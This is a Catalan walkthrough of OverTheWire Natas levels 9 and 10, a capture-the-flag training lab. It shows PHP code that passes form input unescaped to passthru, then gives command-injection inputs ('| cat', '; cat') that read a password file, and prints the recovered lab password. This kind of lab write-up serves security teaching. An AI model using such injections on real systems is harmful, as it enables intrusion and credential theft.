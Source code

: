     Output:
    <pre>
    <?
    $key = "";
    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }
    if($key != "") {
        passthru("grep -i $key dictionary.txt");
    }
    ?>

    Si escrivim en el formulari: | pwd
    Ens mostra: /var/www/natas/natas9

    Per tant, fem el cat de la password.
    | cat /etc/natas_webpass/natas10 
    També funciona amb:
    ; cat /etc/natas_webpass/natas10

    Output:
    D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE


# NATAS 10

    Username: natas10
    Password: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
    URL:      http://natas10.natas.labs.overthewire.org

    Cliquem sobre 'view sourcecode'.
    Tenim el contingut interessant:
    
    For security reasons, we now filter on certain characters<br/><br/>
    <form>
    Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
    </form>

    Output:
    <pre>
    <?
    $key = "";
    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }
    if($key != "") {
        if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i $key dictionary.txt");
        }
    }
    ?>
